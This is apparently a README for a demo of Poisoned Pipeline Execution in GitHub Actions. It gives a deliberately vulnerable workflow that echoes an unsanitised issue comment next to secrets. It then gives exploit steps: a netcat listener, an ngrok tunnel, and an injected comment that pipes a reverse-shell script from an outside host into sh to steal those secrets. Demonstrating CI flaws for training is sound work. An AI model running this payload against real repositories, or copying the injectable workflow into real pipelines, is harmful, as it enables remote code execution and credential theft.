



# Github Actions: Poisoned Pipeline Execution


This folder showcases a GitHub Actions vulnerable to Poisoned Pipeline Execution (PPE). 

### Demo Objective 

The objective of this demo is to illustrate how an attacker can exploit a vulnerable GitHub Action setup to:

- Execute remote code.

- Exfiltrate sensitive secrets from the GitHub environment.

## Prerequisites 

To run this demo, ensure you have:

- Access to a GitHub repository with GitHub Actions enabled.

- Permission to modify GitHub Actions workflows.

- Awareness of the ethical implications of testing in a controlled environment.

## Instructions 
 
1. **Setup** : Create a new Github repository.
 
2. **Configuration** : Inside the new repo, create the `.github/workflows` repo.
 
3. **Execute** : Inside the workflow repo create a yaml file called `vulnerable.yaml` and copy the following inside:  
```yaml
name: command-injection-demo
on:
  issue_comment:
    types: [created]
jobs:
  auto-manage-new-issue:
    runs-on: ubuntu-latest
    steps:
      - name: Retrieve Issue Information
        run: |
          echo ${{ github.event.comment.body }}
        env:
          AWS_API_KEY: ${{ secrets.AWS_API_KEY }}
          MYSQL_CONNECTION_STRING: ${{ secrets.MYSQL_CONNECTION_STRING }}
          GENERIC_TOKEN: ${{ secrets.GENERIC_TOKEN }}
```  

This GitHub Action workflow (`command-injection-demo`) triggers on the creation of issue comments.  
Upon activation, it retrieves the body of the comment (`${{ github.event.comment.body }}`) and echoes it directly within the workflow execution environment.  
The vulnerability lies in the lack of input sanitization for `${{ github.event.comment.body }}`.  
Since the workflow echoes this variable without any validation or sanitization, an attacker can potentially inject arbitrary operating system (OS) commands into the workflow.  
By crafting a malicious comment, an attacker could exploit this vulnerability to execute unauthorized commands within the GitHub Actions environment and exfiltrate the secrets (`AWS_API_KEY`, `MYSQL_CONNECTION_STRING` and `GENERIC_TOKEN`).  


 
4. **Exploit** : Create a new issue and add a new comment to it, see what happens:  

  
   
 
As you can see the action was triggered by our comment in printed out the body of the comment.  

At this point we can proceed to poison the execution 😈

In order to do that we will use [*ngrok*](https://ngrok.com/) (you can also use [*Cloudflare Tunnels*](https://www.cloudflare.com/products/tunnel/) or whatever tool fit the need to seamlessy expose a local service to the internet).  


Open a new nectcat local listener:  
```sh
nc -lnvp 1337
```  

Forward an ngrok tcp tunnel on the same port: 

```sh
ngrok tcp 1337
```  

Now, retrieve the `Forwarding` address (DNS name) from ngrok output and with that we can construct our malicious payload (you can also use ngrok public IP instead of the dns name).  

Our payload will be:  
```console
"" && sh -c 'curl https://reverse-shell.sh/<NGROK-IP-OR-DNS-NAME>:<NGROK-PUBLIC-PORT> | sh'
```  


This payload will be the body of our new malicious comment on the GitHub issue:  
  

When we leave this comment, it will trigger the GitHub Action, and that payload will be injected directly into the runner (agent) of the action and executed, thereby opening a reverse shell within the remote environment of the pipeline.    
From there, we will have the ability to exfiltrate secrets.    
Watch a demonstration of the entire workflow in the following video:  

  


